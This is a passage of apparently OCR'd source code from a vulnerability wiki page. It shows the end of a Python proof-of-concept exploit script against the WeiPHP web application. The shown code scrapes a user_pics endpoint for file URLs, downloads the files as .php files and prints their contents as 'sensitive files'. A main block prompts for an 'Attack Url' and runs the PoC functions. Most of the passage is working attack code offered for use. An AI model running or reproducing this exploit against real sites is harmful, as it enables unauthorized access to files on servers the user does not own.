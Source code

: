 ```python
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_2(target_url):
    vnln_url = target_url + "/public/index.php/home/file/user_pics"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vnln_url, headers=headers).text
        href = re.findall(r'<img src="(.*?)"', response)
        for i in href:
            print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
            data = requests.get(url=i, headers=headers)
            path = str(random.randint(1,999)) + '.php'
            with open(path, 'wb') as f:
                f.write(data.content)
                print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
    except:
            print("\033[31m[x] 获取文件名失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
    image_url = POC_2(target_url)
```

![](http://wikioss.peiqi.tech/vuln/weiphp-14.png)